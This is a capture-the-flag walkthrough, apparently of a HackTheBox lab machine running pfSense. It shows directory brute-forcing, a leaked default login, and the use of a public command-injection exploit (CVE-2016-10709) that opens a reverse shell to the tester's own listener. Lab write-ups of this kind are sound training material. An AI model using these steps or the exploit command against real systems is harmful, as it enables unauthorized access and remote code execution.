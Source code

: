 # <center>pfSense</center>

# No DNS records

![](vx_images/3860251097699.png)

# index.php

![](vx_images/4220657837094.png)


# Gobuster


```bash
$ gobuster dir -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -o gobuster/txtextention.txt -k -x ".txt"
/themes               (Status: 301) [Size: 0] [--> https://10.10.10.60/themes/]
/css                  (Status: 301) [Size: 0] [--> https://10.10.10.60/css/]
/includes             (Status: 301) [Size: 0] [--> https://10.10.10.60/includes/]
/javascript           (Status: 301) [Size: 0] [--> https://10.10.10.60/javascript/]
/changelog.txt        (Status: 200) [Size: 271]
/classes              (Status: 301) [Size: 0] [--> https://10.10.10.60/classes/]
/widgets              (Status: 301) [Size: 0] [--> https://10.10.10.60/widgets/]
/tree                 (Status: 301) [Size: 0] [--> https://10.10.10.60/tree/]
/shortcuts            (Status: 301) [Size: 0] [--> https://10.10.10.60/shortcuts/]
/installer            (Status: 301) [Size: 0] [--> https://10.10.10.60/installer/]
/wizards              (Status: 301) [Size: 0] [--> https://10.10.10.60/wizards/]
/csrf                 (Status: 301) [Size: 0] [--> https://10.10.10.60/csrf/]
/system-users.txt     (Status: 200) [Size: 106]
/filebrowser          (Status: 301) [Size: 0] [--> https://10.10.10.60/filebrowser/]
```


# system-users.txt

company defaults is "pfsense" which is the default password of pfsense.
username is rohit

![](vx_images/732829484601.png)


# index.php (Authenticated)
![](vx_images/4853015057142.png)

# Searchsploit

![](vx_images/2258286210651.png)



# [Exploit](https://www.cvedetails.com/cve/CVE-2016-10709/)

```bash
searchsploit -m php/webapps/43560.py
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators
```

```bash
$ python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.8 --lport 4444 --username 'rohit' --password 'pfsense'
CSRF token obtained
Running exploit...
Exploit completed
```

# Shell


![](vx_images/4688353928844.png)